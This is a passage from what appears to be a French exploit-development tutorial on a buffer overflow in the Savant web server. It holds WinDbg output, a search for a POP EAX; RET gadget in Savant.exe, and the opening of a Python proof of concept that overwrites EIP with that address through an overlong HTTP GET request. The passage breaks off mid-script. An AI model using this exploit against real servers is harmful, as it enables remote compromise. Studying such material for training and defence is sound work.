 ```powershell
0:004> dds @esp L5
0460ea2c  0460fe70
0460ea30  0460ea84
#
0:004> !teb
TEB at 00244000
    ExceptionList:        0460ff70
    StackBase:            04610000
    StackLimit:           0460c000
[...]
```

Génération des *opcodes* de l'instruction `POP EAX;RET` :

```powershell
$ msf-nasm_shell
nasm > pop eax
00000000  58                pop eax
nasm > ret
00000000  C3   
```

On cherche ces *opcodes* dans le module `Savant.exe`

```powershell
0:004> lm m Savant
Browse full module list
start    end        module name
00400000 00452000   Savant   C (no symbols)           
0:004> s -[1]b 00400000 00452000 58 c3
0x00418674
[...]
0:004> u 0x00418674 L4
Savant+0x18674:
00418674 58              pop     eax
00418675 c3              ret
[...]
```

On modifie la preuve de concept pour positionner l'adresse `0x00418674` dans le registre `EIP`

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  httpMethod = b"GET /"
  inputBuffer = b"\x41" * 253
  inputBuffer += pack("<L", (0x418674)) # 0x00418674 : POP EAX ; RET -> EIP
```
